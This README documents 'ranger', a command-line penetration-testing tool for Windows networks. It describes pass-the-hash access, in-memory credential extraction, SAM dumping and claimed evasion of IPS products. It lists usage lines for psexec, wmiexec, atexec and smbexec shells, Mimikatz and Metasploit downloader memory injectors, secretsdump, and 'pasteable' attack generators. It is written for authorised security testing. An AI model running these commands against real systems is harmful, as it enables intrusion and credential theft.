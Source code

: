 # ranger
A tool to support security professionals access and interact with remote Microsoft Windows based systems.

This project was conceptualized with the thought process, we did not invent the bow or the arrow, 
just a more efficient way of using it.

Ranger is a command-line driven attack and penetration testing tool, which as the ability to use 
an instantiated catapult server to deliver capabilities against Windows Systems.  As long as a user 
has a set of credentials or a hash set (NTLM, LM, LM:NTLM) he or she can gain access to systems that 
are apart of the trust.

Using this capability a security professional can extract credentials out of memory in clear-text, 
access SAM tables, run commands, execute PowerShell scripts, Windows Binaries, and other tools.  
At this time the tool bypasses the majority of IPS vendor solutions unless they have been custom 
tuned to detect it. The tool was developed using our home labs in an effort to support security 
professionals doing legally and/or contractually supported activities.

More functionality is being added, but at this time the tool uses the community contributions 
from repositories related to the PowerShell PowerView, PowerShell Mimikatz and Impacket teams.  

Find Logged In Users
    ranger.py [-u Administrator] [-p Password1] [-d Domain] --scout
SMBEXEC Command Shell:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --smbexec -q -v -vv -vvv
PSEXEC Command Shell:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -q -v -vv -vvv
PSEXEC Command Execution:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -c "Net User" -q -v -vv -vvv
WMIEXEC Command Execution:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec -c "Net User"
WMIEXEC PowerShell Mimikatz Memory Injector:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker
WMIEXEC Metasploit web_downloader Memory Injector:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader
WMIEXEC Custom Code Memory Injector:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -c "binary.exe"
ATEXEC Command Execution:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --atexec -c "Net User" --no-encoder
ATEXEC PowerShell Mimikatz Memory Injector:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker --no-encoder
ATEXEC Metasploit web_downloader Memory Injector:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader --no-encoder
ATEXEC Custom Code Memory Injector:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -c "binary.exe" --no-encoder
SECRETSDUMP Custom Code Memory Injector:
    ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --secrets-dump
Create Pasteable Mimikatz Attack:
    ranger.py --invoker -q -v -vv -vvv
Create Pasteable web_downloader Attack:
    ranger.py --downloader -q -v -vv -vvv
Create Pasteable Executor Attack:
    ranger.py --executor -q -v -vv -vvv
